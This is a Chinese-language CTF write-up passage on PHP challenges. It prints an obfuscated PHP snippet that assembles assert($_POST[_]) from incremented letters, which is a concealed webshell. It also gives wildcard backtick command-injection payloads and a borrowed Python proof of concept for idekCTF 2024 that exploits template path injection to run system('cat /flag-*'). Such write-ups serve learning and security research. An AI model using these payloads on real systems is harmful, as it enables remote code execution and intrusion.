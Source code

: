 ```
$__++;$__++;   //得到"T"，此时$__="T"
$___ .= $__;   //$___="ASSERT"
$__ = $_;   //$__="A"
$____ = "_";   //$____="_"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"P"，此时$__="P"
$____ .= $__;   //$____="_P"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"O"，此时$__="O"
$____ .= $__;   //$____="_PO"
$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$____ .= $__;   //$____="_POS"
$__++;   //得到"T"，此时$__="T"
$____ .= $__;   //$____="_POST"
$_ = $$____;   //$_=$_POST
$___($_[_]);   //ASSERT($POST[_])
```

方法四：通配符（本题不可行）

```
code=?><?=`??? ???`?>
```

```
code=?><?=`??? ???/???/????/???_????.???`?>
```

都抓不到flag 或者get_flag.php

Level 27 : PHP - 模板注入导致的RCE

idekctf 2024 [idekCTF 2024 报道 - Hamayan Hamayan](https://blog.hamayanhamayan.com/entry/2024/08/20/092636)

偷的别人的 poc [Idek ctf 2024 网络文章（后续） (zenn.dev)](https://zenn.dev/tchen/articles/83f26ca77948fa)

```python
import hashlib
import requests
from urllib.parse import quote

URL = "填你自己的"
cwd = '/app'



target_file = '../{Closure::fromCallable(system)->__invoke("cat /flag-*")}/../../pages/about'
w1 = requests.get(URL + "?page=" + quote(target_file))
print(w1.status_code)
print(w1.text)



filehash = hashlib.sha1(f"//{cwd}/pages/{target_file}{cwd}/templates/".encode())
template_c_file = filehash.hexdigest() + "_0.file_" + target_file.split("/")[-1] + ".php"
template_c_file_path = "../templates_c/" + template_c_file

w2 = requests.get(URL + "?page=" + template_c_file_path)
print(w2.status_code)
print(w2.text)
```
